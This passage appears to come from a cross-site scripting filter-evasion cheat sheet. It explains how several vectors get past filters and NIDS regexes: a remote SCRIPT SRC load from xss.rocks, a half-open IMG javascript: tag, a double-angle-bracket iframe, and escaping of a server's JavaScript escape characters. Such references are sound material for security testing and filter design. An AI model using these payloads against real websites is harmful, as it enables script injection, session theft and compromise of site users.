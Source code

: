     </SCRIPT>

tag at the end. However, this is especially useful where space is an
issue, and of course, the shorter your domain, the better. The ".j" is
valid, regardless of the encoding type because the browser knows it in
context of a SCRIPT tag.

    `<SCRIPT SRC=//xss.rocks/.j>`

## Half open HTML/JavaScript XSS vector

Unlike Firefox the IE rendering engine doesn't add extra data to your
page, but it does allow the javascript: directive in images. This is
useful as a vector because it doesn't require a close angle bracket.
This assumes there is any HTML tag below where you are injecting this
cross site scripting vector. Even though there is no close "\>" tag the
tags below it will close it. A note: this does mess up the HTML,
depending on what HTML is beneath it. It gets around the following NIDS
regex: /((\\%3D)|(=))\[^\\n\]\*((\\%3C)|\<)\[^\\n\]+((\\%3E)|\>)/
because it doesn't require the end "\>". As a side note, this was also
affective against a real world XSS filter I came across using an open
ended \<IFRAME tag instead of an \<IMG tag:

    `<IMG SRC="`<javascript:alert>`('XSS')"`

## Double open angle brackets

Using an open angle bracket at the end of the vector instead of a close
angle bracket causes different behavior in Netscape Gecko rendering.
Without it, Firefox will work but Netscape won't:

    `<iframe src=http://xss.rocks/scriptlet.html <`

## Escaping JavaScript escapes

When the application is written to output some user information inside
of a JavaScript like the following:

    <SCRIPT>

    var a="$ENV{QUERY\_STRING}";

    </SCRIPT>

and you want to inject your own JavaScript into it but the server side
application escapes certain quotes you can circumvent that by escaping
their escape character. When this gets injected it will read

    <SCRIPT>

    var a="\\\\";alert('XSS');//";

    </SCRIPT>

which ends up un-escaping the double quote and causing the Cross Site
Scripting vector to fire. The XSS locator uses this method.:
